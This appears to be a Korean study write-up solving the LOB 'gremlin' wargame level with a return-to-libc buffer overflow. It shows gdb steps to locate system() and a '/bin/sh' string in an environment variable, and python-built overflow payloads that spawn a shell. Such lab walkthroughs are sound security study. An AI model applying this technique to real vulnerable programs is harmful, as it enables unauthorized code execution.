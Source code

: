# LOB - gate (RTL)

### /bin/bash2 는 보호가 되어있으므로 /bin/sh를 사용해야한다. - 없으면 export BBB="/bin/sh"   이런 명령어로 환경변수 추가하고 시작

- tmp 디렉터리로 가서 gdb로 gremlin을 본다.
- system 함수와 /bin/sh의 주소만 알면된다.

![1568134864528](https://user-images.githubusercontent.com/52530785/64917451-90d93e00-d7cb-11e9-8fff-dd5d364d7fec.png)

main 함수에 breakpoint를 걸고 실행 후, system의 주소를 출력한다.

```ㅊ
b *main
r
p system
```

![1568133491885](https://user-images.githubusercontent.com/52530785/64917466-933b9800-d7cb-11e9-899e-35f219492cf7.png)



libc가 보인다.(libc는 무조건 있다.) 이 안에는 system이 있고, system에는 /bin/sh 가 있다.



우리는 이 system 함수 주소와 /bin/sh 의 주소를 사용하면 된다.

![1568133593933](https://user-images.githubusercontent.com/52530785/64917467-933b9800-d7cb-11e9-8714-7a558d067d88.png)



쭉 찾아보는데 잘 보이지 않으므로, 환경변수에 추가했다.

![1568133643992](https://user-images.githubusercontent.com/52530785/64917468-933b9800-d7cb-11e9-8898-f8f29530b574.png)



다시 gdb를 들어간다.

```ㅊ
b *main
r aaaa	--> gremlin은 argv 인자가 필요하므로, argv 인자를 줌
si
ni
x/2ws $ebp
```

![1568133876050](https://user-images.githubusercontent.com/52530785/64917469-933b9800-d7cb-11e9-96df-9414d119c853.png)

![1568133895079](https://user-images.githubusercontent.com/52530785/64917470-93d42e80-d7cb-11e9-810a-1fb4ac172688.png)



- 이 중 x/2ws $ebp 명령어를 통해 나오는 값들은 

![1568134829679](https://user-images.githubusercontent.com/52530785/64917450-90d93e00-d7cb-11e9-945c-6ff9cd344bf9.png)

이렇게 이다.



env의 값들을 보면

```c
x/10wx 0xbffffb70
```

![1568134224079](https://user-images.githubusercontent.com/52530785/64917471-93d42e80-d7cb-11e9-8cb4-18a05c30d47d.png)

이렇게 쭉 있는데 그 중 첫번째부터 쭉 보았다.



```ㅊ
x/100s 0xbffffc71
```

![1568134351208](https://user-images.githubusercontent.com/52530785/64917472-93d42e80-d7cb-11e9-8af4-c0dbf4a0914a.png)

0xbffffc84에 내가 환경변수에 추가한 BINSH=/bin/sh 가 있다.



```ㅊ
x/s 0xbffffc84
```

![1568134418033](https://user-images.githubusercontent.com/52530785/64917473-946cc500-d7cb-11e9-80e8-c9ea185b4822.png)



근데 내가 필요한 부분은 /bin/sh 이므로

BINSH= 의 6바이트만큼 더해서 /bin/sh만 나타낸다.

![1568134471342](https://user-images.githubusercontent.com/52530785/64917474-946cc500-d7cb-11e9-8a8c-1437038ef845.png)



---

그러면 지금 system 함수의 주소인 0x40058ae0과

![1568134540288](https://user-images.githubusercontent.com/52530785/64917449-90d93e00-d7cb-11e9-966e-57dc842a72ba.png)

/bin/sh의 주소인 0xbffffc84+6 을 구했다.

![1568134471342-1568528020936](https://user-images.githubusercontent.com/52530785/64917448-90d93e00-d7cb-11e9-89d3-c9383e137739.png)

0xbffffc8a



그럼 gremlin.c 는

![1568135017123](https://user-images.githubusercontent.com/52530785/64917452-9171d480-d7cb-11e9-85ea-6de371ff3fd8.png)

이므로

buffer와 SFP 크기의 합인 260바이트를 dummy로 채우고,

main 함수의 RET 을 system 함수의 주소

system 함수의 RET을 dummy

그리고 argv에 /bin/sh 문자열의 주소를 넣으면 된다.





----------------

system 함수 주소 : 0x40058ae0

/bin/sh 문자열의 주소 : 0xbffffc8a

```c
./gremlin `python -c 'print "a"*260+"\xe0\x8a\x05\x40"+"\x61\x61\x61\x61"+"\x8a\xfc\xff\xbf"'`
```

![1568136000398](https://user-images.githubusercontent.com/52530785/64917453-9171d480-d7cb-11e9-985a-fb24185d009e.png)

segmentation fault 가 뜬다.



다시 gdb를 들어가서 보면

```ㅊ
gdb gremlin
b *main
r `python -c 'print "a"*260+"\xe0\x8a\x05\x40"+"\x61\x61\x61\x61"+"\x8a\xfc\xff\xbf"'`
si	// 기본 gdb가 이상해서 main에서 ni를 하면 main이 끝나므로 si 사용
dias main
```

![1568136057091](https://user-images.githubusercontent.com/52530785/64917454-9171d480-d7cb-11e9-9d78-1b6d457da59c.png)

![1568136077828](https://user-images.githubusercontent.com/52530785/64917455-9171d480-d7cb-11e9-90d4-cfdf5f81c1d0.png)



```ㅊ
disas main	에서 ret의 주소에 breakpoint 를 건다.
```

![1568136287130](https://user-images.githubusercontent.com/52530785/64917457-920a6b00-d7cb-11e9-9235-75af6c242078.png)



```ㅊ
c  //continue 하면 진행된다.
```

![1568136305429](https://user-images.githubusercontent.com/52530785/64917458-920a6b00-d7cb-11e9-9363-177fe8a36741.png)



여기서 esp를 확인해본다.

```c
x/wx $esp	//system의 주소와 똑같다.
```

![1568136410468](https://user-images.githubusercontent.com/52530785/64917459-920a6b00-d7cb-11e9-8f0a-9de5e66ffaa3.png)



엔터를 계속 치면서 보면

![1568136493255](https://user-images.githubusercontent.com/52530785/64917460-920a6b00-d7cb-11e9-9dde-1daa1fc62da6.png)



- 내가 main의 RET에 넣어두었던 system의 주소
- system 함수의 RET에 넣어둔 dummy 값인 aaaa
- /bin/sh 문자열의 주소인 0xbffffc8a 가 들어가 있다.
- c 를 통해 continue 하면 쉘이 뜬다.





### 근데 안되는 이유는

- gdb를 하면 환경변수 위치가 조금씩 달라지기 때문이다.



core를 들어가서 확인해본다. 

main함수의 RET에 넣어둔 system 의 주소는 stack 아래부분에 있으므로 바뀌지 않아서 그냥 두고 /bin/sh 문자열의 주소만 찾아서 바꾸면 된다.



- **위에서는 x/wx $esp 했을 때 system 의 주소가 나왔지만,**

  **core 에서 x/wx $esp 했을 때 /bin/sh 문자열의 주소가 나오는 이유는** 

  **환경변수가 gdb를 실행 할때마다 조금씩 달라지기 때문이다.**



```ㅊ
gdb -c core
x/wx $esp
x/s 0xbffffc8a	--> /bin/sh 문자열의 주소
```

![1568136774197](https://user-images.githubusercontent.com/52530785/64917461-92a30180-d7cb-11e9-8421-1035bcd972de.png)



/bin/sh가 들어가 있어야할 위치인 0xbffffc8a 에 다른 값이 들어가 있다.

이를 찾기 위해

```ㅊ
x/s 0xbffffc8a-0x100	명령어를 사용했다.
```

![1568136992992](https://user-images.githubusercontent.com/52530785/64917462-92a30180-d7cb-11e9-9336-5ceda1b3d53d.png)



BINSH=/bin/sh 가 0xbffffc73 에 있다.

내가 필요한 부분은 /bin/sh 이므로 6바이트를 더한다.

0xbffffc79



/bin/sh 문자열의 주소를 바꿔서 하면

![1568137087557](https://user-images.githubusercontent.com/52530785/64917463-92a30180-d7cb-11e9-8486-5277b16c9cd8.png)

/sh를 찾을 수 없다고 나온다.



그러면 /bin 이 사라진거니까 4바이트를 빼서

0xbffffc75 로 바꿔준다.

```ㅊ
./gremlin `python -c 'print "a"*260+"\xe0\x8a\x05\x40\x61\x61\x61\x61"+"\x75\xfc\xff\xbf"'`
```

![1568137174300](https://user-images.githubusercontent.com/52530785/64917465-92a30180-d7cb-11e9-99f8-0a722ca95001.png)



쉘이 떴다.
